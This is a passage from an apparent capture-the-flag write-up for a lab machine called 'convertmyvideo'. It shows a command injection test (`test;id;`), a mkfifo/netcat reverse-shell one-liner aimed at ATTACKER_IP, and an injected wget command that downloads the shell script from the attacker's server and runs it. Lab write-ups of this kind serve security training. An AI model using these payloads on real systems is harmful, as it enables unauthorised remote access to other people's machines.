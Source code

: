 *(More payloads can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection))*

Let's try a basic bypass using the `;` symbol *(Note: instead of `;`, we can also use* `|`*)*:

```
test;id;
```

![screenshot8](../assets/images/convertmyvideo/screenshot8.png)

Nice it works! :smile:

Now we can try setting up a reverse shell so that we can gain an initial foothold into the machine. 

*(Payload used is from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))*

I saved the following payload into a file onto my local machine:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

![screenshot9](../assets/images/convertmyvideo/screenshot9.png)

I then set up a simple HTTP server so that we can download the file onto the target machine. We can then inject the following commands into the web page:

```
test;wget http://ATTACKER_IP:8000/shell.sh;chmod +x shell.sh;./shell.sh;
```

This will have the target machine download our reverse shell script, make it executable, then execute it.
